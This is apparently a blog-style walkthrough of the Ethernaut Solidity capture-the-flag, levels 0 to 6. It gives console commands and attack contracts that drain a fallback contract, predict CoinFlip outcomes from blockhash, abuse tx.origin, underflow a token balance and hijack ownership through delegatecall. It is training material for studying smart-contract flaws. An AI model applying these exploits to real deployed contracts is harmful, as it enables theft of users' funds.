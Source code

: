 # This is a walkthrough of the Ethernaut Solidity CTF.

I did it previously but I want to go through it again and write a detailled walkthrough.

# Levels
## Lvl-0 Hello Ethernaut
Follow the instructions in the console until you get to:
`await contract.method7123949()
'If you know the password, submit it to authenticate().'`.
Remember that you can access to the ABI object with 'contract.abi'.
You will see the 'password' method that you can call:
`'await contract.password()
'ethernaut0'`
Then simply call contract.authenticate() with the param 'ethernaut0', pay for the transaction with metamask,
wait for tx to be mined, click the 'submit instance' button and voila!

## Lvl-1 Fallback
To pass this level, you first need to send some eth to it through the contribute() function, then some more eth through the fallback function.
First check that your contribution is 0, with 'await contract.checkContributions()' that returns 0.
Then call 'await contract.contribute({value: 1})' and pay for the tx.
Wait for the tx to be mined then call 'await contract.checkContributions()' again. It should now be 1.
Now you can send eth through the fallback function with
'await web3.eth.sendTransaction({to: instance, from: player, value: 1})'.
Waited for the tx to be mined and check the owner with 'await contract.owner()'
It should be your address.
You can now call the withdraw function and drain the contract of it's balance.
Call 'await web3.eth.getBalance(instance)' to check that balance is 0.
Click 'submit instance'.

## Lvl-2 Fallout
For this level, you just have to call the 'Fallout()' function with 1 wei and the contract will be yours.
The code comments say that Fallout() is the constructor but that's wrong. Since Solidity v0.4.23, constructors are now specified using the constructor keyword, and since the code is Solidity 0.6, the function Fallout() is not called during deployement and no owner is assigned to the contract.

## Lvl-3 CoinFlip
In order to beat this level, you need to write a smart contract in remix that does the same calcul then the targeted contract and send the guess to the target.
Here is the code:

```
pragma solidity 0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/docs-v3.x/contracts/math/SafeMath.sol';

interface CoinFlip {
    function flip(bool) external;
}

contract Flipper {

    using SafeMath for uint256;

    CoinFlip target = CoinFlip(0xe364E0Cd32846CfbeBfBe21E84611e8467F0E1A4);

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public returns(bool) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```
Then just call the 'attack()' function 10 times (wait some time between each calls to be sure you are not calling the function twice within one block).

## Lvl-4 Telephone
Simply make a contract that calls 'changeOwner()' while passing the msg.sender of your address as the arguments.
```
pragma solidity 0.6.0;
contract Caller {
    Telephone telephone = Telephone(YOUR_INSTANCE_ADD);

    function call() public {
        telephone.changeOwner(msg.sender);
    }
}
```
The tx.origin will be your metamask address, the msg.sender will be your Caller contract, and therefore you will pass the check on the first line of 'changeOwner()'.

## Lvl-5 Token
The first thing you need to notice, in that level, is the abscence of safeMath library. We are dealing with a token from a contract that is not protected by safeMath for overflow and underflow.
The attack is therefore simple.
You just need to use the transfer function to send more than what you have, which will underflow your balance and you will end up with a ridiculous amount of tokens.
Simply use the console to call the transfer() function:
``
await contract.transfer('0xF553874CD699b2285DCcCe8d014e9B0f66eFC63d', 21000000);
``
and click submit.

## Lvl-6 DelegateCall
A quick look at the code shows us that the main contract has a fallback function that delegateCalls another contract.
If we can send a transaction to the main contract with instructions to call the pwn() function, our call will go through to the 'Delegate' contract and execute the pwn() function.
To do this, we need to prepare the payload with by typing in the console: `const payload = web3.eth.abi.encodeFunctionSignature("pwn()")` which is '0xdd365b8b', the 4 first bytes signature of the function 'pwn()', send call the fallback() function with the payload as data of the call: `await contract.sendTransaction({data: payload})`.
Wait for tx to be mined and, voila, you are now the owner of the delegation contract!

